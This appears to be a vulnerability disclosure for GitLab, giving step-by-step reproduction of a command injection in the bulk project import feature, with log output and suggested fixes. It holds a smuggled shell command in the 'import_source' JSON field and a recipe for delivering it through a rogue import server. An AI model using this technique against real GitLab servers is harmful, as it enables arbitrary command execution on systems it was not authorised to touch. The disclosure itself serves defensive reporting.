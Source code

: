 ### Steps to reproduce

1. spin up a gitlab instance
1. ssh in and enable bulk project imports with from a rails console: `sudo gitlab-rails console` then `::Feature.enable(:bulk_import_projects)`
1. start watching the logs with `sudo gitlab-ctl tail`
1. create an api token
1. create a new group
1. create a new project in that group
1. download {F1785226} and change `PROJECT_PATH` to the full path of the project above and `PROJECT_ID` to its id
1. change `"import_source":"/tmp/ggg;echo lala|tee /tmp/1234;#",` to be your custom command (it cannot contain `>` as json will convert it to `\u003c`)
1. (optional) remove `proxies={"http":"http://127.0.0.1:8080", "https":"http://127.0.0.1:8080"}` if you are not using burp/another proxy
1. run it with `FLASK_APP=api_project_ql.py flask run`
1. start ngrok with `ngrok http 5000`
1.  go to new group -> import group
1. enter the ngrok http address and your token from above in the `Import groups from another instance of GitLab` section
1. select the group created above, change the parent to `No parent` and choose a new group name
1. hit import
1. you should see requests being made, then after the project is imported and the `wait_for_archived_file` has timed out (takes a few minutes) you should see something like following error in the logs and the payload will execute:

```
command exited with error code 2: tar (child): /tmp/ggg;echo lala|tee /tmp/1234;#: Cannot open: No such file or directory
tar (child): Error is not recoverable: exiting now
tar: Child returned status 2
tar: Error is not recoverable: exiting now
```

```bash
vagrant@gitlab:~$ cat /tmp/1234
lala
vagrant@gitlab:~$
```

### Impact

If the `bulk_import_projects` feature is enabled, allows an attacker to execute arbitrary commands on a gitlab server


### What is the current *bug* behavior?
* The `DecompressedArchiveSizeValidator` passes a string to `popen` that can contain attacker controlled data
* The `ProjectPipeline` does not correctly filter the project params

### What is the expected *correct* behavior?
* The `DecompressedArchiveSizeValidator` should use `Gitlab::Popen` and the command should be an array of strings
* The `ProjectPipeline` should use the `Gitlab::ImportExport::AttributeCleaner` or just have a whitelist of allowed params
